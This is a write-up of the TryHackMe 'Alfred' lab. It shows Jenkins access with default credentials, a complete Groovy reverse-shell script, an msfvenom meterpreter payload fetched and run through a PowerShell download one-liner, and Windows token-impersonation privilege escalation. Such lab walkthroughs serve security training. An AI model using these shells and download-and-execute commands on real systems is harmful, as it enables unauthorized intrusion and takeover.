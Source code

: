 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Advanced_Exploitation
contest_name: Advanced Exploitation
problem_code: ALFRED
problem_name: Alfred
comments: false
tags: jenkins windows_tokens
date: 2021-08-28
---
```


### A simple nmap scan was conducted on the machine. Turns out it is running a website on port 80 and 8080. Also running RDP on port 3389

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/nmap.png)

‎


### The website on port 80 does not look interesting enough

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web1.png)

‎


### The website on port 8080 was found to have a login page. Default `admin:admin` credentials was used to login into the webpage

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web2.png)

‎


### After logged in as admin, it brought us to this page, where it can be used to manage Jenkins

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/index.png)

‎


### The script page allowed us to execute remote commands in groovy language. This allows us to perform RCE. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/command_exec.png)

‎


### A reverse shell groovy script was created and executed to gain a reverse shell
```groovy
String host="10.11.21.149";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/reverse_shell.png)

<p style="color:orange;">The reverse shell was obtained using Ncat as a listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/ncat.png)

<p style="color:orange;">We are able to get our first flag</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/flag1.png)

‎


### It's always good to always to obtain a better shell for higher flexibility. Thus I had attempted to upgrade this simple shell to a meterpreter shell and hosted it on port 80
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.21.149 LPORT=8000 -f exe -o shell.exe
```
<p style="color:orange;">Creating Meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/msfconsole.png)

<p style="color:orange;">Hosting Payload</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/host.png)

‎


### However, this machine runs on older version of powershell  which does not support `Invoke-WebRequest` library (alternative to wget). Thus, another approach was used to download our meterpreter payload to obtain a meterpreter shell
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.149/shell.exe','shell.exe')" && shell.exe
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/download.png)

<p style="color:orange;">Obtaining a reverse meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/meterpreter_shell.png)

‎


### In order to privilege escalate we can impersonate windows tokens.
### Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
### Thus, we can view all the privileges using `whoami /priv`. We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. We can use the incognito module that will allow us to exploit this vulnerability
```
whoami /priv
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/privilege_list.png)

‎


### We can list user token by using the command `list_tokens -u`. We are able to see that NT Authority\System token is available. We then can proceed impersonating the token by executing `impersonate_token "NT AUTHORITY\SYSTEM"` to escalate our privilege

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/escalation.png)

‎


### However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
### To mitigate from this, we can migrate to a process with correct permissions. The safest process to pick is the `services.exe` process.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/root.png)
